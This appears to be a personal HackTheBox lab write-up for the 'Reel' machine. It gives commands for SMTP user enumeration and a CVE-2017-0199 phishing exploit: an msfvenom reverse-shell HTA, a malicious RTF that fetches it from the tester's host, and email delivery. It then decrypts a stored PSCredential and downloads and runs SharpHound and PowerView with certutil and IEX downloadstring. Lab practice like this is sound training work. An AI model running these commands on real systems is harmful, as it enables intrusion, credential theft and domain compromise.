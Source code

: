 ### FTP
```bash
ftp $IP
```
exploit smtp with RTF object from readme.txt

`docx2txt AppLocker.docx`

### Get all ports
```bash
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

Open 10.129.1.151:22
Open 10.129.1.151:21
Open 10.129.1.151:25

### SMTP
##### SMTP user enumeration using RCPT and other commands
```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP

smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
```

Try User Enumeration using "RCPT TO". Replace <TARGET-DOMAIN> with the target's domain name:
```bash
hydra smtp-enum://10.129.1.151:25/rcpt -L "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" -o "/home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Active Directory/Reel/results/10.129.1.151/scans/tcp25/tcp_25_smtp_user-enum_hydra_rcpt.txt" -p $IP
```

##### Nmap script
```bash
nmap --script smtp-enum-users $IP -v -p 25
```

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|   RCPT, root
|   RCPT, admin
|   RCPT, administrator
|   RCPT, webadmin
|   RCPT, sysadmin
|   RCPT, netadmin
|   RCPT, guest
|   RCPT, user
|   RCPT, web
|_  RCPT, test

```bash
nmap -p 25 --script smtp-brute $IP -Pn
```

### Back to the ftp documents as above failed
```bash
❯ mv Windows\ Event\ Forwarding.docx WEF.docx
                                                                                                                                                                                            
❯ docx2txt WEF.docx
Failed to extract required information from <WEF.docx>!
                                                                                                                                                                                            
❯ exiftool WEF.docx
```

nico@megabank.com

### RTF cve
At the time of Reel’s release, there was a popular RTF exploit that was being used very commonly in broad-based attacks, CVE-2017-0199. The Metasploit module description does a good job explaining it at a high level:

Description: This module creates a malicious RTF file that when opened in vulnerable versions of Microsoft Word will lead to code execution. The flaw exists in how a olelink object can make a http(s) request, and execute hta code in response. This bug was originally seen being exploited in the wild starting in Oct 2016. This module was created by reversing a public malware sample.
##### without metasploit
0) Prepare the HTA payload with msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.13 LPORT=443 -f hta-psh > /tmp/alvin.hta` <- x86 make it harder to think about it.
1) Generate malicious RTF file
`python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.13/alvin.hta`
2) serve it
```bash
cd /tmp 
python3 -m http.server 80
```
3) Start toolkit in exploit mode to deliver local payload <- This won't work since it need the target path to be executed.
```bash XX
python cve-2017-0199_toolkit.py -M exp -t RTF -e http://10.10.16.13/alvin.hta -l /tmp/alvin.hta
```
4) sendEmail
```bash
sendEmail -f foo@megabank.com -t nico@megabank.com -u "U hello" -m "M goodbye" -a invoice.rtf -s $IP -v
``` 

##### metasploit method 1 office_word_hta
##### metasploit method 2 meterpreter with Empire (offical writeup)

# Foothold
```
c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
* https://hashes.com/en/tools/hash_identifier
* https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
hashcat -m 12900 --force -a 0 tom.hash /usr/share/wordlists/rockyou.txt
```

a little offset invest
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```
```
000000000000000000000000000000000000000000000000000000038421854118412625768408160477112384218541184126257684081604771129b6258eb22fc8b9d08e04e6450f72b98725d7d4fcad6fb6aec4ac2a79d0c6ff738421854118412625768408160477112
```

### PSCredential is the better way to do it
PowerShell has a method for storing encrypted credentials that can only be accessed by the user account that stored them. To retrieve the credential and using it within a script, you read it from the XML file. We will use this method to get the user’s hash.

```
PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"

PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
```
```c:\ rev
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

### RunAs or ssh
`ssh tom@$IP`

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).
Maybe we should re-run Cypher query against other groups we've created.   

### Below follow the 0xdf writeup and ippsec video
```
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.exe 
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.ps1

PS>
IEX(New-Object Net.Webclient).downloadstring("http://10.10.16.13/SharpHound.ps1") Invoke-BloodHound -CollectionMethod All
```
BloodHound not working.

I'll just go with powerview.

`certutil -urlcache -f http://10.10.16.13/powerview.ps1 powerview.ps1`
